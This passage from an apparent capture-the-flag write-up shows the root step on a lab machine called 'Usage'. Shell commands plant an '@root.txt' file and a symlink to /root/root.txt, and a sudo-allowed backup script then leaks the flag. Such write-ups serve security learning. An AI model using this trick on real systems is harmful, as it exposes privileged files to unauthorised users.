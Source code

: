 ![img](/assets/img/Usage/12.webp)
### Root

I noticed that the `usage_management` script would back up the web content

- I created a file called `@root.txt` in the `/var/www/html`
- Created a symbolic link from `/root/root.txt` to `./root.txt`
- Then I ran the `usage_management` script

```bash
xander@usage:/var/www/html$ touch @root.txt                                                                                            
xander@usage:/var/www/html$ ln -s /root/root.txt ./root.txt                                                                            
xander@usage:/var/www/html$ sudo /usr/bin/usage_management                                                                             
Choose an option:                                                                                                                      
1. Project Backup                                                                                                                      
2. Backup MySQL data                                                                                                                   
3. Reset admin password                                                                                                                
Enter your choice (1/2/3): 1                                                                                                           
```

The `usage_management` script backed up the web content, including the symbolic link I created. This gave me the `root.txt`

```text
66cf0e33e....
```
